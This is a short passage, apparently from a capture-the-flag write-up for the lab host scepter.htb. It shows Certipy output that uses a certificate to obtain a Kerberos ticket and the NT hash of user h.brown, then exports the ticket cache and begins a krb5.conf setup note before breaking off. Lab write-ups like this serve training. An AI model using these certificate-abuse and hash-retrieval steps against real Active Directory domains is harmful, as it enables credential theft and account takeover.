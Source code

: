 ```bash

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4e..0c
```
<img src="../assets/gif/rubbing-hands-eric-cartman.gif" alt="yay" width="550">

```bash
export KRB5CCNAME=h.brown.ccache
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">Config /etc/krb5.conf like this</p>
